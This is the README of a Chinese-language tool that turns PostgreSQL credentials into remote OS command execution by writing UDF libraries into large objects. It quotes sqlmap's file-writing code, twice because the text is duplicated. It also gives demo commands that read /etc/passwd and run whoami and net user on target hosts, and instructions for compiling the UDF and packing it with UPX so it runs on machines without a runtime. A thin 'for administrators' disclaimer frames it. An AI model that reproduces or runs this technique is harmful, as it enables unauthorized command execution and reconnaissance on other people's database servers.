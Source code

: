# fuck_postgres

### 前言

PostgreSQL在国外的流行程度不亚于MySQL，简称postgres。比如你kaili linux上的Metasploit数据库服务使用的就是PostgreSQL。

fuck_postgres不是什么黑客攻击工具，他并不是要去fuck什么，只用于便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。

一切攻击都是违法行为，非管理员请不要。。。使用此工具的一切违法行为与本人无关。

经测试，sqlmap上对于postgres的--os-shell无效，so文件和dll文件也有问题，语句略坑，所以我抽时间写一个，方便各位“管理员”。
sqlmap该模块语句详见filesystem.py:
```
def stackedWriteFile(self, wFile, dFile, fileType, forceCheck=False):
	wFileSize = os.path.getsize(wFile)
	content = open(wFile, "rb").read()

	self.oid = randomInt()
	self.page = 0

	self.createSupportTbl(self.fileTblName, self.tblField, "text")

	debugMsg = "create a new OID for a large object, it implicitly "
	debugMsg += "adds an entry in the large objects system table"
	logger.debug(debugMsg)

	# References:
	# http://www.postgresql.org/docs/8.3/interactive/largeobjects.html
	# http://www.postgresql.org/docs/8.3/interactive/lo-funcs.html

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
	inject.goStacked("SELECT lo_create(%d)" % self.oid)
	inject.goStacked("DELETE FROM pg_largeobject WHERE loid=%d" % self.oid)

	for offset in xrange(0, wFileSize, LOBLKSIZE):
		fcEncodedList = self.fileContentEncode(content[offset:offset + LOBLKSIZE], "base64", False)
		sqlQueries = self.fileToSqlQueries(fcEncodedList)

		for sqlQuery in sqlQueries:
			inject.goStacked(sqlQuery)

		inject.goStacked("INSERT INTO pg_largeobject VALUES (%d, %d, DECODE((SELECT %s FROM %s), 'base64'))" % (self.oid, self.page, self.tblField, self.fileTblName))
		inject.goStacked("DELETE FROM %s" % self.fileTblName)

		self.page += 1

	debugMsg = "exporting the OID %s file content to " % fileType
	debugMsg += "file '%s'" % dFile
	logger.debug(debugMsg)

	inject.goStacked("SELECT lo_export(%d, '%s')" % (self.oid, dFile), silent=True)

	written = self.askCheckWrittenFile(wFile, dFile, forceCheck)

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)

	return written
```

PostgreSQL在国外的流行程度不亚于MySQL，简称postgres。比如你kaili linux上的Metasploit数据库服务使用的就是PostgreSQL。

fuck_postgres不是什么黑客攻击工具，他并不是要去fuck什么，只用于便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。

一切攻击都是违法行为，非管理员请不要。。。使用此工具的一切违法行为与本人无关。

经测试，sqlmap上对于postgres的--os-shell基本就是个摆设，语句略坑，所以我抽时间写一个，方便各位“管理员”。
sqlmap该模块语句详见filesystem.py:

def stackedWriteFile(self, wFile, dFile, fileType, forceCheck=False):
    wFileSize = os.path.getsize(wFile)
    content = open(wFile, "rb").read()

    self.oid = randomInt()
    self.page = 0

    self.createSupportTbl(self.fileTblName, self.tblField, "text")

    debugMsg = "create a new OID for a large object, it implicitly "
    debugMsg += "adds an entry in the large objects system table"
    logger.debug(debugMsg)

    # References:
    # http://www.postgresql.org/docs/8.3/interactive/largeobjects.html
    # http://www.postgresql.org/docs/8.3/interactive/lo-funcs.html

    inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
    inject.goStacked("SELECT lo_create(%d)" % self.oid)
    inject.goStacked("DELETE FROM pg_largeobject WHERE loid=%d" % self.oid)

    for offset in xrange(0, wFileSize, LOBLKSIZE):
        fcEncodedList = self.fileContentEncode(content[offset:offset + LOBLKSIZE], "base64", False)
        sqlQueries = self.fileToSqlQueries(fcEncodedList)

        for sqlQuery in sqlQueries:
            inject.goStacked(sqlQuery)

        inject.goStacked("INSERT INTO pg_largeobject VALUES (%d, %d, DECODE((SELECT %s FROM %s), 'base64'))" % (self.oid, self.page, self.tblField, self.fileTblName))
        inject.goStacked("DELETE FROM %s" % self.fileTblName)

        self.page += 1

    debugMsg = "exporting the OID %s file content to " % fileType
    debugMsg += "file '%s'" % dFile
    logger.debug(debugMsg)

    inject.goStacked("SELECT lo_export(%d, '%s')" % (self.oid, dFile), silent=True)

    written = self.askCheckWrittenFile(wFile, dFile, forceCheck)

    inject.goStacked("SELECT lo_unlink(%d)" % self.oid)

    return written

filesystem.py line65，是将dll文件base64编码解码，整个写入到pg_largeobject的一个page，在linux某些版本一定会报错的。 每page容量为4096字节，如果是hex，只能容纳2kb的数据。

##### 工具特点：

> 1. 不限平台，可用于管理windows和linux上的postgres
> 2. 不限版本，udf有效版本内可自行添加库文件到工具目录
> 3. hex+分段写入large obj，无page数据过大问题
> 4. 。。。


#### USAGE

```
usage: fuck_postgres [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD]
                     [-d DATABASE] [-e EXECUTE]

optional arguments:
  -h, --help            show this help message and exit
  -a HOST, --host HOST  pgsql server ip
  -o PORT, --port PORT  pgsql Port
  -u USER, --user USER  pgsql UserName
  -p PASSWD, --passwd PASSWD
                        pgsql password
  -d DATABASE, --database DATABASE
                        pgsql database
  -e EXECUTE, --execute EXECUTE
                        command for UDF to execute
```

##### 演示

管理PostgreSQL 9.2.24 running on linux 64：

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgresu -e "cat /etc/passwd"
```

![linux](./pic/linux.png)

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgres -e "net user & whoami"
```


![whoami](./pic/whoami.png)

管理PostgreSQL 8.2.21 running on windows 32：

```
fuck_postgres.exe -a 192.168.0.30 -u postgres -p postgres -e "quser & net user & whoami"
```

![win](./pic/win.png)

```
fuck_postgres.exe -a 192.168.0.47 -u postgres -p postgres -e "ls -al"
```

![win2](./pic/win2.png)

##### 暂时收录了以下版本postgres的库文件：

![tree](./pic/tree.png)

各版本源码地址：`https://www.postgresql.org/ftp/source`

##### 以下来自@zcgonvh（https://www.t00ls.net/thread-30179-1-1.html）

我在拜读前辈文章时，叹服前辈对待技术研究的态度。

udf源文件在此(https://github.com/sqlmapproject/udfhack/)

在 linux 编译so文件简单许多，只需要一条命令： 
```
gcc sys_eval.c -shared -fPIC -I$PGSRC/include/server -o /tmp/8.2_x64.so 
```
其中$PGSRC 为 postgres 源码的路径或安装路径。 

windows上编写 postgres 的 UDF 需要引用其提供的头文件，在 windows 下这些头文件的位置为： 

`%PGDIR%\include `
其中`%PGDIR%`为 postgres 的安装路径 而需要引用的头文件目录并不仅仅只有这个，以下两个目录也是必须的： 

```
%PGDIR%\include\server 
%PGDIR%\include\server\port\win32 
```
这三个路径都需要加到工程的头文件目录列表中。 
同时，需要将 `%PGDIR%\lib `
添加至 lib 文件目录列表中。  
在编译时，必须使用 vs 进行编译，使用 vc6 编译会失败（原因未知）。 
同时也不能使用 release 模式生成，release 的某个选项会导致编译出的 dll 不能正常使用（vs2008 出现此情况，其余版本未测试）。 
为了防止对方未安装 vc 运行库，务必将 配置属性->C/C++->代码生成 中的 代码生成 选项修改为多
线程/MT，以保证在任何情况下均能够正常运行。 
最后，为了尽可能的减小生成文件体积，需要修改 配置属性->链接器 中以下几个参数： 
清单文件->生成清单，修改为否 调试->生成调试信息，修改为否 
优化->引用，修改为是 
优化->启用 COMDAT 折叠，修改为是  
在 vs2008 下使用以上设置，编译成功。 另：建议将生成的动态链接库文件使用 UPX 进行压缩，这样可以有效地减少文件体积。UPX 的下载地
址为： 
http://upx.sourceforge.net/#downloadupx  



欢迎有vs环境的童鞋编译提交新的库文件。

##### 参考鸣谢：@zcgonvh @anlfi @bt2312 @Catchermana
